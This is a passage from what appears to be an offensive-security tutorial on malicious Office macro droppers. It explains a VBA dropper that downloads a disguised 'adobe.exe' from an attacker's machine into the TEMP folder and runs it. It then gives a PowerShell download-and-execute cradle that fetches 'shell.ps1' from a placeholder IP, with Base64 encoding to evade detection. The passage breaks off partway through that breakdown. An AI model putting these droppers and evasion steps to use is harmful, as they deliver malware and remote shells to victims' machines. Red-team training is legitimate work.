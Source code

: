 **Step-by-Step Execution**

1. **Uses** `Environ("TEMP")` **to dynamically locate the user's temp folder**.
2. **Downloads** `adobe.exe` from the attacker's machine.
3. **Saves it in the Windows TEMP directory**.
4. **Executes the payload**.

**Why use the TEMP folder?**

- **Bypasses some AV heuristics**.
- **More flexible** for execution across different user environments.
- Often used in **phishing payloads and post-exploitation frameworks**.

* * *

### Encoded Dropper

#### Understanding PowerShell Base64 Encoding for Obfuscation

This script **encodes a PowerShell command in Base64** and then attempts to execute it using VBA. **Base64 encoding is commonly used to obfuscate malicious scripts**, making them harder to detect by signature-based security tools.

* * *

#### 1. Understanding the Encoding Process

The following **PowerShell command** is designed to:

1. **Download and execute a remote PowerShell script** (`shell.ps1`).
2. **Encode the command in Base64** to avoid detection.
3. **Execute the encoded command using PowerShell’s** `-EncodedCommand` **flag.**

**Encoding the PowerShell Command**

```
$command="IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')"
$bytes=[System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand=[Convert]::ToBase64String($bytes)
Write-Output $encodedCommand
```

**Step-by-Step Breakdown**

1. **Define the command**:

```
$command="IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')"
```

- Uses `IEX (Invoke-Expression)` to execute the **downloaded PowerShell script in memory**.
- The script `shell.ps1` is hosted on `<ip>:8080`.

**2. Convert the command to bytes in Unicode format**:

```
$bytes=[System.Text.Encoding]::Unicode.GetBytes($command)
```
